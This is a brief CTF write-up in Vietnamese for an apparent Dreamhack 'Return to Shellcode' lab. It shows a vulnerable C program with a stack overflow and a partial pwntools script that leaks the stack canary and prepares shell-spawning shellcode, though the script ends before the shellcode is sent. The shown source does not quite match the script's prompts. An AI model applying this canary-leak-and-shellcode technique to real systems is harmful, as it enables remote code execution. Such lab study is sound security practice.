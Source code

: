 
----------

4 . Return to Shellcode
-----

bài này chỉ đơn giản là leak canary = read , và ret2shellcode
![image](https://hackmd.io/_uploads/HkBFISPEyl.png)

source : 

```
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}


int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();
    
    printf("buf = (%p)\n", buf);
    scanf("%141s", buf);

    return 0;
}

```

script 


```
#!/usr/bin/python3

from  pwn import *

context.binary = exe = ELF('./r2s',checksec=False)
#p = process()
p = remote('host3.dreamhack.games',16854)
p.recvuntil(b': ')
buf = int(p.recvline().strip(),16)
print("buf: ",hex(buf))
payload = b'a'*89
shellcode = shellcraft.sh()
p.sendafter(b'Input: ',payload)
p.recvuntil(b'a'*89)
canary = u64(b'\x00' + p.recv(7).strip())
print("canary : ",hex(canary))
```